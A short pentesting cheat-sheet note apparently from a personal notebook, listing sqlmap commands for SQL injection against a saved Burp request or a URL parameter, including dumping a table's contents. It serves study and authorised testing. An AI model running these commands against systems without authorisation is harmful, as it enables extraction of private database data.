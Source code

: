 ```
1. Save burp request to file
sqlmap -r request.txt --tables --batch // Check for vulnerabilities, show tables and databeses
sqlmap -D DATABASE -T TABLE --dump --batch // Dump all columns in specified table
```


##### Using [[Burp suite]] POST request
`sqlmap -r request.txt `

##### Custom parameters:
`sqlmap -u http://IP/ -p PARAM --batch`

